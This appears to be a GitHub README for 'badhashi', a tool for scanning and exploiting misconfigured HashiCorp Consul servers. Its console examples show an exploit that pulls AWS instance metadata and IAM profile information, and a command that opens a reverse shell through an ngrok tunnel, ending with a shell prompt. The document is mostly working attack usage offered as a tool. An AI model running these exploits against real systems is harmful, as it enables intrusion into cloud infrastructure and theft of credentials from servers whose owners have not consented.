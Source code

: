 # badhashi
Scanning / Exploiting vulnerable hashicorp tools

![](https://github.com/grines/hashiscan/blob/main/badhashi.gif)


![](https://github.com/grines/hashiscan/blob/main/badhashi-shell.gif)

# Features Consul
- [X] AWS Meta data extraction
- [X] Status (Check if vulnerable
- [X] Reverse shell
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# Features Nomad (Coming soon)
- [ ] AWS Meta data extraction
- [ ] Status (Check if vulnerable
- [ ] Reverse shell ( Raw_exec/ exec / docker)
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# How
Start ngrok
./ngrok tcp 9000

```console
Connected <http://127.0.0.1:8500>$ check status
DisableRemoteExec: true
EnableRemoteScriptChecks: true
NodeName: mini.hsd1.wa.comcast.net
Version: 1.9.3
Server: true
```

```console
Connected <http://127.0.0.1:8500>$ exploit metadata
----
Check Registered
Waiting for command to register...
ID: Test
HTTP GET http://169.254.169.254/latest/meta-data/iam/info: 200 OK Output: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-25T06:15:20Z",
  "InstanceProfileArn" : "arn:aws:iam::*************************************",
  "InstanceProfileId" : "AIPA2LE*************"
}
Check Deregistered
---
```

(cmd ngrok-host ngrok-port local-port) ** can replace ngrok with external ip.
```console
Connected <http://127.0.0.1:8500>$ exploit shell 2.tcp.ngrok.io 18563 9000
----
Check Registered
Waiting for callback...
2021/02/24 23:16:21 Listening on localhost:9000
Check Deregistered
---
Client 127.0.0.1:51771 connected.
bash-$: whoami
brian
```
